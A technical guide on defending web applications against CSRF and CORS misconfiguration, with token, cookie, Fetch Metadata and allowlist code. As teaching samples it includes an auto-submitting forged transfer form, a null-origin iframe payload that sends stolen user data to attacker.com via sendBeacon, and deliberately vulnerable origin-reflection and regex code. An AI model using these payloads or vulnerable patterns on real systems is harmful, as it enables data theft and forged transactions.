


# CSRF and CORS Defense for Modern Web Applications

A deep dive into Cross-Site Request Forgery (CSRF) and Cross-Origin Resource Sharing (CORS)—their threat models, specification-level mechanics, and defense-in-depth implementation patterns for production web applications.

<figure>



<figcaption>CSRF exploits ambient authority (cookies sent automatically); CORS controls same-origin policy relaxation. Defense requires both browser-level and server-level controls working together.</figcaption>

</figure>

## Abstract

CSRF and CORS address opposite sides of the same problem: managing cross-origin trust.

**Core mental model**:

- **Same-Origin Policy (SOP)**: The browser's default—scripts can only access resources from the same origin. CORS relaxes this when servers opt in.
- **CSRF**: Exploits the fact that browsers automatically attach cookies to requests. The attacker's page triggers a request to your server; your server sees a legitimate session cookie and processes it.
- **CORS**: Not a security boundary—it's a relaxation mechanism. Servers declare which foreign origins may read responses. It does not prevent requests from being sent; it prevents responses from being read.

**Key invariants**:

| Defense         | What It Protects              | What It Does NOT Protect                            |
| --------------- | ----------------------------- | --------------------------------------------------- |
| SameSite=Strict | All CSRF                      | Subdomains; if XSS exists, attacker is "same-site"  |
| SameSite=Lax    | POST CSRF, unsafe methods     | GET-based state changes; two-minute Lax+POST window |
| CSRF Tokens     | State-changing requests       | Token extraction via XSS                            |
| CORS            | Response data confidentiality | Request being sent; cookies being attached          |
| Custom Headers  | API endpoints                 | Simple requests (no preflight)                      |

**Design principle**: Defense in depth. SameSite cookies are the first line; CSRF tokens cover edge cases; origin verification provides fallback; Fetch Metadata enables server-side filtering.

## The CSRF Threat Model

CSRF (Cross-Site Request Forgery) tricks a user's browser into making authenticated requests to a target site without the user's intent. The attacker exploits the browser's automatic inclusion of cookies in requests.

### Attack Mechanics

The attack requires three conditions:

1. **User is authenticated** to the target site with a session cookie
2. **Target site relies on ambient authority** (cookies alone) for request authentication
3. **Attacker can induce the user's browser** to make a request (via ``, `<form>`, JavaScript)

**Attack flow**:



**Why it works**: The browser sees a request to `bank.com` and automatically includes `bank.com`'s cookies. The server cannot distinguish between a legitimate user action and an attacker-induced request—both carry the same session cookie.

### Attack Vectors

| Vector                             | Method | Requires User Action             |
| ---------------------------------- | ------ | -------------------------------- |
| ``                  | GET    | None                             |
| `<form method="POST">` auto-submit | POST   | None (JavaScript)                |
| `<form>` with target `_blank`      | POST   | Click (or auto-submit)           |
| `fetch()` / `XMLHttpRequest`       | Any    | None (blocked by CORS for reads) |
| `<link rel="prerender">`           | GET    | None                             |

**Example**: Hidden form auto-submit

```html
<!-- On attacker.com -->
<form action="https://bank.com/transfer" method="POST" id="evil">
  <input type="hidden" name="to" value="attacker-account" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>
  document.getElementById("evil").submit()
</script>
```

### What CSRF Cannot Do

- **Read responses**: Same-origin policy blocks this; CSRF is write-only
- **Forge non-simple requests without preflight**: Custom headers trigger OPTIONS
- **Bypass SameSite=Strict**: Cookie not sent on cross-site requests
- **Extract CSRF tokens from pages**: Requires XSS (different vulnerability)

## SameSite Cookies: The Primary Defense

The `SameSite` attribute (RFC 6265bis, December 2025) controls when cookies are sent with cross-site requests. It's the most effective CSRF mitigation because it operates at the browser level.

### Enforcement Modes

**Specification** (draft-ietf-httpbis-rfc6265bis-22):

| Mode       | Behavior                                                   | Use Case                             |
| ---------- | ---------------------------------------------------------- | ------------------------------------ |
| **Strict** | Cookie sent only in same-site context                      | Session cookies, auth tokens         |
| **Lax**    | Sent with same-site + top-level navigations (safe methods) | Default; balances security/usability |
| **None**   | Sent in all contexts (requires `Secure`)                   | Third-party integrations, embeds     |

**Same-site vs. cross-site determination**:

A request is "same-site" when:

1. The request is not a reload navigation triggered by user interaction, AND
2. The request's current URL origin shares the same registrable domain as the client's "site for cookies"

**Example**:

- `app.example.com` → `api.example.com` = **same-site** (same registrable domain)
- `app.example.com` → `api.other.com` = **cross-site**

### Default Behavior (2025)

> **Browser defaults**: Chrome 80+ (February 2020) treats cookies without `SameSite` as `Lax` by default. Firefox and Safari do not default to Lax—explicit configuration required.

**OWASP recommendation**: Always set `SameSite` explicitly. Relying on browser defaults creates inconsistent behavior across browsers.

```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly; Path=/
```

### The Lax+POST Exception (Lax-allowing-unsafe)

**Design rationale**: When Chrome introduced `SameSite=Lax` as default, it broke SSO (Single Sign-On) flows that use POST for cross-site redirects. The two-minute exception provides backward compatibility.

**Mechanism**: For cookies created within the last ~120 seconds without an explicit `SameSite` attribute, browsers may allow cross-site POST requests in top-level navigations.

**Security implication**: A two-minute window where users are vulnerable to CSRF after cookie creation. SSO flows should complete within this window, but attackers could exploit slow connections.

**Mitigation**: Always set `SameSite=Strict` or `SameSite=Lax` explicitly—the exception only applies to cookies without the attribute.

### Cookie Prefixes: `__Host-` and `__Secure-`

Cookie prefixes (RFC 6265bis) enforce security properties through naming conventions that browsers validate.

**`__Secure-` prefix**:

- Cookie must have `Secure` attribute
- Cannot be set from non-HTTPS origins

**`__Host-` prefix** (strictest):

- Must have `Secure` attribute
- Must NOT have `Domain` attribute (locked to exact origin)
- Must have `Path=/`
- Cannot be overwritten by subdomains

**Why `__Host-` matters**: Prevents subdomain cookie injection attacks. If `app.example.com` sets a session cookie and an attacker controls `evil.example.com`, without `__Host-` the attacker could overwrite the session cookie.

```http
Set-Cookie: __Host-session=abc123; Secure; HttpOnly; Path=/; SameSite=Strict
```

**Design trade-off**: `__Host-` cookies cannot be shared across subdomains. If your auth system requires `auth.example.com` to set cookies for `app.example.com`, use `__Secure-` instead.

### SameSite Limitations

**SameSite does not protect against**:

1. **Same-site attacks**: An XSS vulnerability on any subdomain can forge "same-site" requests
2. **Subdomain takeover**: `abandoned.example.com` controlled by attacker is same-site as `app.example.com`
3. **GET-based state changes**: `SameSite=Lax` allows top-level GET navigations
4. **Speculative navigations**: Prerender/prefetch may send cookies before user intent

**Defense in depth**: SameSite is necessary but not sufficient. Combine with CSRF tokens for state-changing operations.

## CSRF Token Patterns

CSRF tokens provide request-level authentication beyond ambient cookies. The server includes a secret token in forms; attackers cannot read this token from the target domain.

### Synchronizer Token Pattern (Stateful)

**Mechanism**: Server generates a random token, stores it in the user's session, and embeds it in forms. On submission, the server verifies the submitted token matches the stored one.

**Design rationale**: Attackers cannot read tokens from cross-origin pages (blocked by SOP). Even if they trigger a request, they cannot include the correct token value.

```javascript collapse={1-3, 22-30}
import crypto from "crypto"

class SynchronizerTokenManager {
  generateToken(session) {
    const token = crypto.randomBytes(32).toString("hex")
    session.csrfToken = token
    return token
  }

  verifyToken(session, submittedToken) {
    if (!session.csrfToken || !submittedToken) {
      return false
    }
    // Constant-time comparison prevents timing attacks
    return crypto.timingSafeEqual(Buffer.from(session.csrfToken), Buffer.from(submittedToken))
  }
}

// Express middleware
app.use((req, res, next) => {
  if (!req.session.csrfToken) {
    req.session.csrfToken = crypto.randomBytes(32).toString("hex")
  }
  res.locals.csrfToken = req.session.csrfToken
  next()
})
```

**Trade-offs**:

| Advantage                    | Disadvantage                              |
| ---------------------------- | ----------------------------------------- |
| Strong security              | Requires server-side session storage      |
| Simple to understand         | Doesn't work with stateless architectures |
| Framework support widespread | Session storage scaling challenges        |

### Signed Double-Submit Cookie Pattern (Stateless)

**Mechanism**: Server generates a token bound to the session, sets it as a cookie, and requires it in request body/header. Attacker cannot read the cookie to include it in forged requests.

**OWASP-recommended structure** (prevents cookie injection attacks):

```
Token = HMAC(sessionId + randomValue, secretKey) + "." + randomValue
```

**Why signing is required**: Without signing, attackers who can set cookies (via subdomain or other injection) could set both the cookie and body value to match. Signing binds the token to server-side secrets.

```javascript collapse={1-3, 28-45}
import crypto from "crypto"

class SignedDoubleSubmitCSRF {
  constructor(secretKey) {
    this.secretKey = secretKey
  }

  generateToken(sessionId) {
    const randomValue = crypto.randomBytes(16).toString("hex")
    const hmac = crypto
      .createHmac("sha256", this.secretKey)
      .update(sessionId + randomValue)
      .digest("hex")
    return `${hmac}.${randomValue}`
  }

  verifyToken(sessionId, token) {
    if (!token || !token.includes(".")) return false

    const [submittedHmac, randomValue] = token.split(".")
    const expectedHmac = crypto
      .createHmac("sha256", this.secretKey)
      .update(sessionId + randomValue)
      .digest("hex")

    return crypto.timingSafeEqual(Buffer.from(submittedHmac), Buffer.from(expectedHmac))
  }
}

// Cookie: __Host-csrf=<token>; Secure; HttpOnly; SameSite=Strict
// Header/Body: X-CSRF-Token: <same token>
app.post("/api/transfer", (req, res) => {
  const cookieToken = req.cookies["__Host-csrf"]
  const headerToken = req.headers["x-csrf-token"]

  if (!csrf.verifyToken(req.session.id, headerToken) || cookieToken !== headerToken) {
    return res.status(403).json({ error: "CSRF validation failed" })
  }
  // Process request
})
```

**Critical implementation detail**: The cookie MUST use `__Host-` prefix and `SameSite=Strict` to prevent cookie injection attacks.

### Custom Request Header Pattern

**Mechanism**: Require a custom header (e.g., `X-CSRF-Token`) on state-changing requests. Browsers don't allow cross-origin JavaScript to set arbitrary headers without a preflight OPTIONS request.

**Design rationale**: CORS preflight blocks custom headers from cross-origin requests. If the server doesn't respond to OPTIONS with the right headers, the actual request is never sent.

```javascript collapse={1-2, 15-25}
// Server-side middleware
function requireCustomHeader(req, res, next) {
  const csrfHeader = req.headers["x-requested-with"]

  // Only applies to state-changing methods
  if (["POST", "PUT", "DELETE", "PATCH"].includes(req.method)) {
    if (csrfHeader !== "XMLHttpRequest") {
      return res.status(403).json({ error: "Missing CSRF header" })
    }
  }
  next()
}

// Client-side (automatically triggers preflight)
fetch("/api/transfer", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "X-Requested-With": "XMLHttpRequest", // Triggers CORS preflight
  },
  credentials: "include",
  body: JSON.stringify({ amount: 100 }),
})
```

**Limitation**: Only works for AJAX requests. Form submissions cannot set custom headers.

**Framework header conventions**:

| Framework              | Header Name    |
| ---------------------- | -------------- |
| Rails, Laravel, Django | `X-CSRF-Token` |
| AngularJS              | `X-XSRF-Token` |
| Express (csurf)        | `CSRF-Token`   |

### Origin/Referer Verification

**Mechanism**: Verify the `Origin` or `Referer` header matches expected values. These are "forbidden headers"—JavaScript cannot modify them.

**Header availability**:

| Header      | When Sent                                      | Reliability |
| ----------- | ---------------------------------------------- | ----------- |
| `Origin`    | CORS requests, POST, form submissions          | ~99%        |
| `Referer`   | Most requests (can be stripped by policy)      | ~98%        |
| Both absent | Privacy browsers, Referrer-Policy: no-referrer | ~1-2%       |

```javascript collapse={1-6, 28-35}
const ALLOWED_ORIGINS = new Set(["https://app.example.com", "https://www.example.com"])

function verifyOrigin(req, res, next) {
  const origin = req.headers["origin"]
  const referer = req.headers["referer"]

  // Extract origin from referer if origin is absent
  let sourceOrigin = origin
  if (!sourceOrigin && referer) {
    try {
      sourceOrigin = new URL(referer).origin
    } catch {
      sourceOrigin = null
    }
  }

  if (sourceOrigin && !ALLOWED_ORIGINS.has(sourceOrigin)) {
    return res.status(403).json({ error: "Invalid origin" })
  }

  // If both absent, fall back to other protections (tokens)
  next()
}
```

**Edge case**: When both `Origin` and `Referer` are absent (~1-2% of traffic), the request should either be rejected or require additional verification via CSRF tokens.

## Fetch Metadata: Server-Side Request Filtering

Fetch Metadata headers (W3C Working Draft, April 2025) allow servers to distinguish legitimate navigations from potential attacks before processing requests.

### Header Values

**Sec-Fetch-Site**:

| Value         | Meaning                                |
| ------------- | -------------------------------------- |
| `same-origin` | Request from same origin               |
| `same-site`   | Request from same registrable domain   |
| `cross-site`  | Request from different site            |
| `none`        | User-initiated (address bar, bookmark) |

**Sec-Fetch-Mode**:

| Value         | Meaning                     |
| ------------- | --------------------------- |
| `navigate`    | Top-level navigation        |
| `cors`        | CORS request                |
| `no-cors`     | Simple cross-origin request |
| `same-origin` | Same-origin request         |
| `websocket`   | WebSocket connection        |

**Sec-Fetch-Dest**:

| Value      | Examples             |
| ---------- | -------------------- |
| `document` | Top-level navigation |
| `iframe`   | Iframe embed         |
| `script`   | Script loading       |
| `image`    | Image loading        |
| `empty`    | fetch(), XHR         |

**Sec-Fetch-User**: `?1` when user-activated (click, keyboard); omitted otherwise.

### Resource Isolation Policy

```javascript collapse={1-8, 35-45}
function fetchMetadataPolicy(req, res, next) {
  const site = req.headers["sec-fetch-site"]
  const mode = req.headers["sec-fetch-mode"]
  const dest = req.headers["sec-fetch-dest"]

  // Allow same-origin requests
  if (site === "same-origin") {
    return next()
  }

  // Allow user-initiated navigations
  if (site === "none") {
    return next()
  }

  // Allow same-site requests from subdomains
  if (site === "same-site" && mode === "navigate") {
    return next()
  }

  // Block cross-site requests to sensitive endpoints
  if (site === "cross-site") {
    // Only allow specific cross-site patterns
    if (dest === "image" || dest === "script") {
      // Public assets only
      if (req.path.startsWith("/public/")) {
        return next()
      }
    }
    return res.status(403).json({ error: "Cross-site request blocked" })
  }

  next()
}
```

**Browser support** (January 2026): Chrome 76+, Firefox 90+, Safari 16.4+, Edge 79+.

**Design rationale**: The `Sec-` prefix makes these headers "forbidden"—JavaScript cannot set them, preventing attackers from spoofing request context.

## CORS: Controlled Same-Origin Policy Relaxation

Cross-Origin Resource Sharing (CORS) is a browser mechanism allowing servers to declare which foreign origins may read their responses. It does NOT prevent requests from being sent.

### The Same-Origin Policy

The Same-Origin Policy (SOP) is the browser's default security boundary. Two URLs have the same origin if they share:

- **Scheme**: `https:` vs `http:`
- **Host**: `api.example.com` vs `example.com`
- **Port**: `:443` vs `:8080`

**What SOP blocks**:

- JavaScript reading cross-origin responses
- Accessing cross-origin DOM
- Reading cross-origin cookies

**What SOP does NOT block**:

- Sending cross-origin requests
- Embedding cross-origin resources (``, `<script>`, `<iframe>`)
- Form submissions to cross-origin targets

### Simple vs. Preflighted Requests

**Simple requests** bypass preflight. Per the Fetch Standard, a request is "simple" when ALL conditions are met:

1. **Method**: GET, HEAD, or POST
2. **Headers**: Only CORS-safelisted headers (Accept, Accept-Language, Content-Language, Content-Type with restrictions, Range)
3. **Content-Type** (if present): `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`
4. **No ReadableStream** in request body
5. **No event listeners** on `XMLHttpRequest.upload`

**Additional constraint**: Total CORS-safelisted request-header value size ≤ 1024 bytes.

**Preflighted requests**: Any request not meeting simple criteria triggers an OPTIONS preflight.

```http
OPTIONS /api/data HTTP/1.1
Host: api.example.com
Origin: https://app.example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Content-Type, X-Custom-Header
```

**Server preflight response**:

```http
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: Content-Type, X-Custom-Header
Access-Control-Max-Age: 86400
Vary: Origin
```

### CORS Response Headers

| Header                             | Purpose                              | Required When                 |
| ---------------------------------- | ------------------------------------ | ----------------------------- |
| `Access-Control-Allow-Origin`      | Origin(s) permitted to read response | Always for CORS               |
| `Access-Control-Allow-Methods`     | Methods permitted beyond simple      | Preflight only                |
| `Access-Control-Allow-Headers`     | Non-simple headers permitted         | Preflight only                |
| `Access-Control-Allow-Credentials` | Credentials (cookies) allowed        | With `credentials: 'include'` |
| `Access-Control-Expose-Headers`    | Headers JavaScript can read          | Optional                      |
| `Access-Control-Max-Age`           | Preflight cache duration (seconds)   | Optional                      |

### Credentialed Requests and Wildcards

**Critical security constraint**: When `Access-Control-Allow-Credentials: true`, wildcards are forbidden.

```http
# INVALID - browsers will block
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

# VALID - explicit origin required
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Credentials: true
Vary: Origin
```

**Design rationale**: Wildcard + credentials would expose authenticated content to any origin—effectively disabling SOP for that endpoint.

**Vary header requirement**: When dynamically reflecting the `Origin` header, include `Vary: Origin` to prevent cache poisoning.

### The CORS Preflight Cache

`Access-Control-Max-Age` caches preflight responses, reducing OPTIONS requests for subsequent calls.

**Browser limits**:

| Browser | Maximum Max-Age          |
| ------- | ------------------------ |
| Chrome  | 7200 seconds (2 hours)   |
| Firefox | 86400 seconds (24 hours) |
| Safari  | 600 seconds (10 minutes) |

**Cache key**: Origin + URL + credentials mode. A cached preflight for `credentials: 'omit'` doesn't apply to `credentials: 'include'`.

## CORS Misconfigurations and Attacks

CORS misconfigurations can effectively disable SOP protections for your endpoints.

### Reflected Origin

**Vulnerability**: Server reflects any `Origin` header without validation.

```javascript
// VULNERABLE
app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", req.headers.origin)
  res.setHeader("Access-Control-Allow-Credentials", "true")
  next()
})
```

**Exploit**: Attacker's page can read authenticated responses from any endpoint.

**Fix**: Validate against an allowlist:

```javascript collapse={1-5, 18-25}
const ALLOWED_ORIGINS = new Set(["https://app.example.com", "https://staging.example.com"])

app.use((req, res, next) => {
  const origin = req.headers.origin
  if (origin && ALLOWED_ORIGINS.has(origin)) {
    res.setHeader("Access-Control-Allow-Origin", origin)
    res.setHeader("Access-Control-Allow-Credentials", "true")
    res.setHeader("Vary", "Origin")
  }
  next()
})
```

### Null Origin Trust

**Vulnerability**: Server accepts `Origin: null` with credentials.

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**When browsers send `Origin: null`**:

- Sandboxed iframes (`sandbox="allow-scripts"`)
- Local file access (`file://` URLs)
- Data URIs
- CORS redirect chains

**Exploit** (CVE-2019-9580 pattern):

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    fetch('https://api.vulnerable.com/user/data', {credentials:'include'})
      .then(r => r.json())
      .then(data => {
        // Exfiltrate data
        navigator.sendBeacon('https://attacker.com/collect', JSON.stringify(data))
      })
  </script>"
>
</iframe>
```

**Fix**: Never allow `null` origin with credentials. If needed for legitimate use cases (local development), restrict to non-sensitive endpoints.

### Regex Bypass

**Vulnerability**: Flawed regex validation of origins.

```javascript
// VULNERABLE - doesn't anchor end
const allowedPattern = /^https:\/\/.*\.example\.com/
if (allowedPattern.test(origin)) {
  res.setHeader("Access-Control-Allow-Origin", origin)
}
// Bypass: https://example.com.attacker.com
```

**Fix**: Exact matching or properly anchored regex:

```javascript
// SECURE - exact match
const ALLOWED_ORIGINS = new Set(["https://app.example.com"])

// Or properly anchored regex
const allowedPattern = /^https:\/\/[a-z]+\.example\.com$/
```

### Subdomain Wildcards

**Vulnerability**: Allowing any subdomain.

```javascript
// VULNERABLE if subdomains can be compromised
if (origin.endsWith(".example.com")) {
  res.setHeader("Access-Control-Allow-Origin", origin)
}
```

**Risk**: Subdomain takeover on `abandoned.example.com` grants CORS access. Typosquatting subdomains (`examp1e.example.com`) may also match.

**Mitigation**: Explicit allowlist of known subdomains; regular audit of DNS records.

## Implementation Checklist

### Cookie Security

```http
Set-Cookie: __Host-session=abc123; Secure; HttpOnly; SameSite=Strict; Path=/
```

| Attribute         | Purpose                      | Requirement                        |
| ----------------- | ---------------------------- | ---------------------------------- |
| `__Host-` prefix  | Prevents subdomain injection | Requires Secure, Path=/, no Domain |
| `Secure`          | HTTPS only                   | Required for production            |
| `HttpOnly`        | No JavaScript access         | Required for session cookies       |
| `SameSite=Strict` | No cross-site requests       | Primary CSRF defense               |
| `Path=/`          | Applies to all paths         | Recommended                        |

### CSRF Defense Layers

1. **Layer 1: SameSite cookies** (browser-enforced)
   - `SameSite=Strict` for session cookies
   - `SameSite=Lax` minimum if cross-site navigations required

2. **Layer 2: CSRF tokens** (server-enforced)
   - Signed double-submit for stateless architectures
   - Synchronizer token for session-based applications

3. **Layer 3: Origin verification** (fallback)
   - Verify `Origin` or `Referer` headers
   - Reject requests with neither header OR require token

4. **Layer 4: Fetch Metadata** (modern browsers)
   - Block `Sec-Fetch-Site: cross-site` for sensitive endpoints
   - Allow `Sec-Fetch-Site: none` for user-initiated actions

### CORS Security

```javascript collapse={1-10, 35-50}
const corsOptions = {
  origin: (origin, callback) => {
    const ALLOWED = new Set(["https://app.example.com", "https://admin.example.com"])

    // Allow requests with no origin (same-origin, curl, etc.)
    if (!origin) return callback(null, true)

    if (ALLOWED.has(origin)) {
      callback(null, true)
    } else {
      callback(new Error("CORS not allowed"))
    }
  },
  methods: ["GET", "POST", "PUT", "DELETE"],
  allowedHeaders: ["Content-Type", "Authorization", "X-CSRF-Token"],
  credentials: true,
  maxAge: 86400, // 24 hours (browser may cap lower)
  optionsSuccessStatus: 204,
}

app.use(cors(corsOptions))

// Explicit Vary header for caching
app.use((req, res, next) => {
  res.setHeader("Vary", "Origin")
  next()
})
```

**CORS security checklist**:

- [ ] Never use `*` with `credentials: true`
- [ ] Validate origins against explicit allowlist
- [ ] Never reflect `Origin` header without validation
- [ ] Never trust `null` origin with credentials
- [ ] Include `Vary: Origin` when dynamically setting CORS headers
- [ ] Limit `Access-Control-Max-Age` appropriately
- [ ] Minimize `Access-Control-Expose-Headers`

## Testing and Monitoring

### Testing CSRF Protection

```bash
# Test without CSRF token (should fail)
curl -X POST https://app.example.com/api/transfer \
  -H "Cookie: session=abc123" \
  -H "Content-Type: application/json" \
  -d '{"amount": 100}'

# Test with wrong origin (should fail with origin verification)
curl -X POST https://app.example.com/api/transfer \
  -H "Cookie: session=abc123" \
  -H "Origin: https://attacker.com" \
  -H "Content-Type: application/json" \
  -d '{"amount": 100}'
```

### Testing CORS Configuration

```bash
# Test preflight
curl -X OPTIONS https://api.example.com/data \
  -H "Origin: https://attacker.com" \
  -H "Access-Control-Request-Method: POST" \
  -H "Access-Control-Request-Headers: X-Custom-Header" \
  -v

# Test null origin (should fail with credentials)
curl https://api.example.com/data \
  -H "Origin: null" \
  -v
```

### Monitoring Failed Requests

Log CSRF and CORS failures for security monitoring:

```javascript collapse={1-5, 20-30}
function securityEventLogger(req, res, next) {
  const originalEnd = res.end
  res.end = function (...args) {
    if (res.statusCode === 403) {
      logger.warn("Security block", {
        type: res.locals.securityBlockReason,
        ip: req.ip,
        origin: req.headers.origin,
        referer: req.headers.referer,
        path: req.path,
        method: req.method,
        userAgent: req.headers["user-agent"],
        fetchSite: req.headers["sec-fetch-site"],
      })
    }
    originalEnd.apply(this, args)
  }
  next()
}
```

**Alerting thresholds**:

- Spike in CSRF token failures: Possible attack or token expiration issue
- Repeated null origin attempts: Possible exploitation attempt
- Origin validation failures from same IP: Targeted attack

## Conclusion

CSRF and CORS defense requires understanding that browsers automatically include cookies and that CORS is a relaxation mechanism, not a security boundary.

**Effective defense requires layers**:

1. **SameSite=Strict cookies**: First line—browser prevents cross-site cookie attachment
2. **CSRF tokens**: Server-side verification for state-changing operations
3. **Origin verification**: Fallback when headers are available
4. **Fetch Metadata**: Modern server-side request classification
5. **Strict CORS configuration**: Explicit allowlist, never reflect origins, never trust null

**Key invariants to enforce**:

- GET requests must be safe (no state changes)
- State-changing requests require multiple verification layers
- CORS headers must use explicit allowlists, never wildcards with credentials
- SameSite cookies are necessary but not sufficient—XSS bypasses them

## Appendix

### Prerequisites

- HTTP cookie mechanics and header structure
- Same-origin policy fundamentals
- Basic cryptographic concepts (HMAC)

### Terminology

| Term               | Definition                                                                    |
| ------------------ | ----------------------------------------------------------------------------- |
| **CORS**           | Cross-Origin Resource Sharing—browser mechanism for controlled SOP relaxation |
| **CSRF**           | Cross-Site Request Forgery—attack exploiting automatic cookie inclusion       |
| **Fetch Metadata** | Sec-Fetch-\* headers providing request context to servers                     |
| **Preflight**      | OPTIONS request checking if server permits a cross-origin request             |
| **SameSite**       | Cookie attribute controlling cross-site request inclusion                     |
| **SOP**            | Same-Origin Policy—browser default blocking cross-origin resource access      |

### Summary

- CSRF exploits automatic cookie attachment; SameSite=Strict is the primary defense
- SameSite has limitations: subdomains, XSS, the two-minute Lax+POST window
- CSRF tokens provide server-side verification; signed double-submit works statelessly
- CORS controls who can READ responses, not who can SEND requests
- Never use CORS wildcards with credentials; validate origins against explicit allowlists
- Fetch Metadata enables server-side request filtering based on context
- Defense in depth: combine SameSite + tokens + origin verification + Fetch Metadata

### References

**Specifications**

- [RFC 6265bis - Cookies: HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis) - SameSite cookie specification (December 2025)
- [WHATWG Fetch Standard](https://fetch.spec.whatwg.org/) - CORS protocol specification
- [W3C Fetch Metadata Request Headers](https://w3c.github.io/webappsec-fetch-metadata/) - Sec-Fetch-\* headers (Working Draft, April 2025)

**Official Documentation**

- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) - Comprehensive defense guidance
- [MDN CORS Guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS) - CORS implementation reference
- [MDN SameSite Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#samesitesamesite-value) - Cookie attribute documentation
- [web.dev SameSite Cookies Explained](https://web.dev/articles/samesite-cookies-explained) - Chrome team guidance

**Security Research**

- [PortSwigger CORS Vulnerabilities](https://portswigger.net/web-security/cors) - CORS misconfiguration exploitation
- [PortSwigger Bypassing SameSite Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) - SameSite bypass techniques
- [Chromium SameSite FAQ](https://www.chromium.org/updates/same-site/faq/) - Browser implementation details
